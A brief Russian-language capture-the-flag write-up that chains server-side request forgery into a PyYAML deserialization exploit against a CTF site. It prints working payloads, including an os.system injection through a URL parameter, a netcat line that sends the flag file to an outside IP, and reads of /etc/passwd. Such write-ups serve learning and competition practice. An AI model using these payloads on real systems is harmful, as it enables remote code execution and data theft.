1. Смотрим, какие проверки делает сайт и отвравляем его проверить наш сервер 89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим админку через dirsearch. Она отдает 403 - поэтому делаем запрос http://localhost/admin/ через сайт.  Проверям как он реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что  падает с 500
 про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг передав http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"].
Находим дополнительные флаги в ./integration.db  и /etc/passwd

